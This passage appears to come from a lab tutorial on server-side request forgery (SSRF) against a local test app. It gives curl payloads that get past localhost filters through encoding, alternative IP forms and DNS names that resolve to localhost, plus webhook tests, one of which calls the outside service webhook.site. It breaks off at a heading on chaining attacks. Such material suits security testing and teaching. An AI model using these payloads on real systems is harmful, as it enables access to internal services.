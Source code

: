 #### 3.2 Bypass Techniques

**URL Encoding:**
```bash
# Double URL encoding
curl -X POST http://localhost:5000/fetch -d "url=http%253A%252F%252F127.0.0.1%253A22"
```

**Alternative IP Representations:**
```bash
# Decimal representation of 127.0.0.1
curl -X POST http://localhost:5000/fetch -d "url=http://2130706433:5000"

# Hexadecimal representation
curl -X POST http://localhost:5000/fetch -d "url=http://0x7f000001:5000"

# Mixed representations
curl -X POST http://localhost:5000/fetch -d "url=http://127.1:5000"
```

**DNS-based bypasses:**
```bash
# Using DNS that resolves to localhost
curl -X POST http://localhost:5000/fetch -d "url=http://localtest.me:5000"
curl -X POST http://localhost:5000/fetch -d "url=http://lvh.me:5000"
```

#### 3.3 Webhook Exploitation
Test the webhook functionality:

```bash
# Use webhook.site for testing
curl -X POST http://localhost:5000/webhook \
  -d "webhook_url=https://webhook.site/your-unique-id" \
  -d "data=SSRF test payload"

# Test internal webhook
curl -X POST http://localhost:5000/webhook \
  -d "webhook_url=http://127.0.0.1:5000/health" \
  -d "data=internal request"
```

### Phase 4: Impact Assessment

#### 4.1 Information Gathering
Document what information you can gather:

- Internal service discovery
- Response headers revealing server information
- Error messages disclosing internal paths
- Network topology information

#### 4.2 Chaining Attacks
Combine SSRF with other vulnerabilities:
